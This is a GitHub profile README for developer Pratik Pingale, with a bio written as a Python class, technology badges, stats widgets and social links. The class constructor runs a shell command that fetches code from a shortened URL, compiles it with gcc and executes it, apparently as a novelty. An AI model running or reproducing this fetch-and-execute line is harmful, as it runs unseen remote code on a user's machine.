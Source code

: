 <h1 align="center">Hi 👋, I'm Pratik Pingale 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&size=16&center=true&vCenter=true&width=485&lines=Just+a+novice.+Still+got+a+lot+to+learn.;Competitive+Coding+%3Ap;Loves+Open+Source+%E2%9D%A4%EF%B8%8F" alt="Just a novice. Still got a lot to learn." />
</p>

```python
class PROxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/pr0x21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 💼 I’m currently working for': {'Convin.ai': 'https://convin.ai'},
      '- 🔭 I’m currently working on' : {'Prism'    : 'https://github.com/PROxZIMA/prism',
                                         'Sweet-Pop': 'https://github.com/PROxZIMA/Sweet-Pop'},
      '- 🌱 I’m currently learning'   : ['Django', 'C++', 'Python', 'Full Stack Development', 'Algo Trading'],
      '- 💬 Ask me anything'          : '¯\_(ツ)_/¯',
      '- 👨‍💻 My projects available at' : 'https://github.com/PROxZIMA?tab=repositories',
      '- 📄 Know about my experiences': 'https://proxzima.ml/resume',
      '- ⚡ Fun fact'                 : ('Proxima Centauri is a small, low-mass star located 4.2465 light-'
                                         'years away from the Sun in the southern constellation of Centaurus.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(PROxZIMA().__dict__)
```
<br>

### - Tools/Interests 🔗
<p align="center">

[![Arch Linux](./src/tools/arch.svg)](#) &nbsp;&nbsp;
[![Pop!_OS](./src/tools/popos.svg)](#) &nbsp;&nbsp;
[![Windows](./src/tools/windows.svg)](#) &nbsp;&nbsp;
[![Android](./src/tools/android.svg)](#) &nbsp;&nbsp;
[![Firefox](./src/tools/firefox.svg)](#) &nbsp;&nbsp;
[![Git](./src/tools/git.svg)](#) &nbsp;&nbsp;
[![GitHub](./src/tools/github.svg)](#) &nbsp;&nbsp;
[![BitBucket](./src/tools/bitbucket.svg)](#) &nbsp;&nbsp;
[![Python](./src/tools/python.svg)](#) &nbsp;&nbsp;
[![C](./src/tools/c.svg)](#) &nbsp;&nbsp;
[![C++](./src/tools/cplusplus.svg)](#) &nbsp;&nbsp;
[![Java](./src/tools/java.svg)](#) &nbsp;&nbsp;
[![Kotlin](./src/tools/kotlin.svg)](#) &nbsp;&nbsp;
[![Bash](./src/tools/bash.svg)](#) &nbsp;&nbsp;
[![HTML5](./src/tools/html5.svg)](#) &nbsp;&nbsp;
[![CSS3](./src/tools/css3.svg)](#) &nbsp;&nbsp;
[![JavaScript](./src/tools/javascript.svg)](#) &nbsp;&nbsp;
[![TypeScript](./src/tools/typescript.svg)](#) &nbsp;&nbsp;
[![MySQL](./src/tools/mysql.svg)](#) &nbsp;&nbsp;
[![PostgreSQL](./src/tools/postgresql.svg)](#) &nbsp;&nbsp;
[![FireBase](./src/tools/firebase.svg)](#) &nbsp;&nbsp;
[![Numpy](./src/tools/numpy.svg)](#) &nbsp;&nbsp;
[![Pandas](./src/tools/pandas.svg)](#) &nbsp;&nbsp;
[![Django](./src/tools/django.svg)](#) &nbsp;&nbsp;
[![Flask](./src/tools/flask.svg)](#) &nbsp;&nbsp;
[![Node.js](./src/tools/nodejs.svg)](#) &nbsp;&nbsp;
[![React](./src/tools/react.svg)](#) &nbsp;&nbsp;
[![Google Colab](./src/tools/colab.svg)](#) &nbsp;&nbsp; <sup><font size='7'><</font></sup> &nbsp;&nbsp;
[![Google Cloud](./src/tools/cloud.svg)](https://www.qwiklabs.com/public_profiles/8ce32532-ca12-4a89-aed0-99c9316cae73) &nbsp;&nbsp;
[![CodePen](./src/tools/codepen.svg)](https://codepen.io/proxzima) &nbsp;&nbsp;
[![Hackerrank](./src/tools/hackerrank.svg)](https://www.hackerrank.com/PROxZIMA) &nbsp;&nbsp;
[![CodeChef](./src/tools/codechef.svg)](https://www.codechef.com/users/proxzima) &nbsp;&nbsp;
[![LeetCode](./src/tools/leetcode.svg)](https://leetcode.com/PROxZIMA) &nbsp;&nbsp; <sup><font size='7'>/></font></sup> &nbsp;&nbsp;
[![Postman](./src/tools/postman.svg)](#) &nbsp;&nbsp;
[![Alacritty](./src/tools/alacritty.svg)](#) &nbsp;&nbsp;
[![NeoVim](./src/tools/neovim.svg)](#) &nbsp;&nbsp;
[![VS Codium](./src/tools/vscode.svg)](#) &nbsp;&nbsp;
[![Android Studio](./src/tools/android_studio.svg)](#)
</p>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="./src/tools/graphics.svg" alt="NVIDIA 3050"></a>
  <a href="#"><img src="./src/tools/processor.svg" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="./src/tools/laptop.svg" alt="Asus"></a>
</p>

### - Languages 🔭
<p align="center" >
  <a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=proxzima&&show_icons=true&theme=radical&hide_border=true&layout=compact&custom_title=Languages%20I%20Use&langs_count=8" alt="proxzima"/></a>
</p>

### - Stats ⚡️
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=proxzima&include_all_commits=true&count_private=true&show_icons=true&theme=radical&hide_border=true&custom_title=PROxZIMA%27s%20Github%20Stats" width="48%" alt="proxzima"/></a><a href="https://github.com/DenverCoder1/github-readme-streak-stats"><img align="right" src="https://github-readme-streak-stats.herokuapp.com?user=PROxZIMA&theme=radical&hide_border=true" width="48%" alt="My Streak"/></a>
<br>

## - Find me around the web 🌎
<p align="center">
  <a href="mailto:pratikbpingale9075@gmail.com"><img src="./src/social/gmail.svg" alt="gmail"></a>
  <a href="https://linkedin.com/in/pratik-pingale"><img src="./src/social/linkedin.svg" alt="pratik-pingale"/></a>
  <a href="https://www.instagram.com/pro_x_zima/"><img src="./src/social/instagram.svg" alt="pro_x_zima"/></a>
  <a href="https://twitter.com/pro_x_zima"><img src="./src/social/twitter.svg" alt="pro_x_zima"/></a>
  <a href="https://www.reddit.com/user/PratikPingale"><img src="./src/social/reddit.svg" alt="PratikPingale"/></a>
  <a href="https://discordapp.com/users/422274155509972992"><img src="./src/social/discord.svg" alt="PROxZIMA#7272"/></a>
  <a href="https://t.me/PROxZIMA"><img src="./src/social/telegram.svg" alt="PratikPingale"/></a>
  <a href="https://marketplace.visualstudio.com/publishers/PROxZIMA"><img src="./src/social/marketplace.svg" alt="PROxZIMA"/></a>
</p>

<p align="center">
  <img src="https://komarev.com/ghpvc/?username=PROxZIMA&label=Profile+Views&color=141321" alt="PROxZIMA" />
</p>

![](https://hit.yhype.me/github/profile?user_id=43103163)
